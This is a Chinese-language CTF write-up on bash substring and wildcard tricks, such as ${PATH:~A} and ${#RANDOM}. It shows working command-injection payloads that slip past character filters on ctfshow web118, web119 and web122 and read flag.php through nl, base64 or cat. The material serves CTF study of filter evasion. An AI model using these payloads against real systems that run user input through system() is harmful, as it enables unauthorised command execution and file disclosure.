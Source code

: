 ```bash
${#} # 结果为0
${#RANDOM} # 结果为4或5 
```

可以用`:`来进行切片操作。`~`来进行倒序切片。

```bash
# 假设${BASH}为/usr/bin/bash
${BASH:0:2} # 表示从0开始，取长度为2的字符串，即/u
${BASH:~0:1} # 表示从最后一个字符开始，向右取1个字符。注~0=-1. 结果为h
${BASH:~0:2} # 表示从倒数第二个字符开始，向右取2个字符。 结果为sh
# 又：$((A)) 为0，$((B))为0
# 不难得出$((~A))为-1
# 因此
${BASH:~A:1} # 仍然表示从最后一个字符开始。因为~A=-1.
```

ctfshow web118中，即可利用这一特性构造nl flag.php。

该题只可用大写字母、`${}?:~.`等符号，且命令执行处为`system($code)`形式。

构造payload可以为：

```bash
${PATH:~A}${PWD:~A}${IFS}????.??? # nl flag.php
```

ctfshow web119中，`${PATH}`不可用，师傅们一共有以下trick：

```bash
# 构造/bin/base64 ，即/???/?????4.但实际上，我本地满足此通配符的命令有很多。
# 这里PWD是/var/www/html，取第一位的斜杠。RANDOM为五位数一下，多试几次有四位数。
${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}?????${#RANDOM}${IFS}????.???
# 构造/bin/cat ，这里有师傅说可以/???/?a?，我本地这个通配符也是比较多。记录一下吧。
# 也有师傅构造的/???/?at，t是从$USER的www-data来的，这个USER很难说。
# PHP_VERSION是7.3.22，最后一位是2。 PWD是/var/www/html，第二位是a。
${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}?${PWD:${PHP_VERSION:~A}:${#SHLVL}}?${IFS}????.??? # 这题确实能打出来 只是有一堆乱码罢了。
```

ctfshow web122中，可以用`<、$HOME `，其他的环境变量，包括`#`都不能用。出题人师傅给了个巧妙的解法：

```bash
<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???
# <A，执行失败使得$?值为1.这样构造出来1之后可以得到斜杠/，并通过取RANDOM的第一位，获取任意数。这里构造了/bin/base64
```

